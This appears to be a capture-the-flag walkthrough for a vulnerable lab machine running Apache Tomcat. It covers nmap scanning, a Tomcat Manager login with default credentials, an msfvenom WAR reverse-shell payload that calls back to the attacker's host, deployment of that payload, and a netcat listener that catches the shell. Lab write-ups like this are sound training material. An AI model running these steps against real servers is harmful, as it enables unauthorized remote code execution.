





# My_Tomcat_Host

## Machine Information

- **Machine:** My_Tomcat_Host
- **Platform:** Offensive Pentesting Lab

---

# Lab Setup

1. Download the vulnerable machine.
2. Import the OVA into VirtualBox.
3. Start the virtual machine.

If the virtual machine does not obtain an IP address, verify the network adapter configuration in VirtualBox.



---

# Reconnaissance

## Discover the Target

```bash
nmap -sn 192.168.2.0/24
```



---

## Port Scan

```bash
nmap -v -p- 192.168.2.135
```


### Open Ports

| Port | Service |
|------|---------|
| 22 | SSH |
| 8080 | Apache Tomcat |

---

# Apache Tomcat Enumeration

## Access the Web Interface

Browse to:

```
http://192.168.2.135:8080/
```

The default Apache Tomcat page is displayed.


---

## Tomcat Manager Login

Open the Tomcat Manager interface.


Common default credentials:

```text
tomcat : tomcat
admin  : admin
```

The credentials below successfully authenticate.

```text
Username: tomcat
Password: tomcat
```


---

# WAR File Deployment

## Generate a WAR Payload

Create a Java WAR payload using **msfvenom**.

```bash
msfvenom \
-p java/shell_reverse_tcp \
LHOST=192.168.2.219 \
LPORT=443 \
-f war \
-o shell.war
```



---

## Upload the WAR File

Open the Tomcat Manager deployment page.

```
http://192.168.2.135:8080/manager/html
```



Deploy the generated **shell.war** file.



---

# Reverse Shell

## Start a Netcat Listener

```bash
nc -lvnp 443
```

---

## Trigger the Payload

Browse to:

```
http://192.168.2.135:8080/shell/
```

The Netcat listener receives an incoming connection.

---

## Reverse Shell Obtained


---

# Attack Flow

1. Discover the target host.
2. Enumerate open ports.
3. Identify Apache Tomcat on port **8080**.
4. Access the Tomcat Manager interface.
5. Authenticate using valid credentials.
6. Generate a WAR payload.
7. Deploy the WAR file.
8. Start a Netcat listener.
9. Trigger the deployed application.
10. Obtain a reverse shell.